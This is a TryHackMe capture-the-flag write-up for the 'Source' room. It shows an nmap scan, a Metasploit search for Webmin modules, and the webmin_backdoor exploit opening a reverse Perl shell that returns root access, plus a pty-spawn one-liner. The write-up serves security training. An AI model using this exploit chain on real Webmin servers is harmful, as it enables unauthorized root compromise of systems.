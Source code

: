 # THM - Source

#### Ip: 10.10.195.75
#### Name: Source
#### Difficulty: Easy

----------------------------------------------------------------------

![source.png](../assets/source_assets/source.png)

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Source]
└─$ sudo nmap -p-  --min-rate 10000 10.10.195.75 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-19 12:29 CDT
Warning: 10.10.195.75 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.195.75
Host is up (0.26s latency).
Not shown: 62627 closed tcp ports (reset), 2906 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b74cd0bde27b1b15722764562915ea23 (RSA)
|   256 b78523114f44fa22008e40775ecf287c (ECDSA)
|_  256 a9fe4b82bf893459365becdac2d395ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.36 seconds
```

Seeing that Webmin is running and is associated with several vulnerabilities I fire up Metasploit to take a look at which modules may be of interest. 

```text
┌──(ryan㉿kali)-[~/THM/Source]
└─$ msfconsole -q                                                                            
msf6 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   3  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   4  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   5  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
```

The webmin_backdoor seems interesting.

Updating the options to:

![options.png](../assets/source_assets/options.png)

### Exploitation

We can then launch the exploit using the `run` command:

```text
msf6 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 10.2.6.181:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 2 opened (10.2.6.181:4444 -> 10.10.195.75:49722) at 2023-09-19 12:43:27 -0500

whoami
root
hostname
source
python -c 'import pty;pty.spawn("/bin/bash")'


root@source:/usr/share/webmin/#
```

Nice, we caught a shell as root!

All we need to do now is grab our flags:

![user_flag.png](../assets/source_assets/user_flag.png)

![root_flag.png](../assets/source_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------------
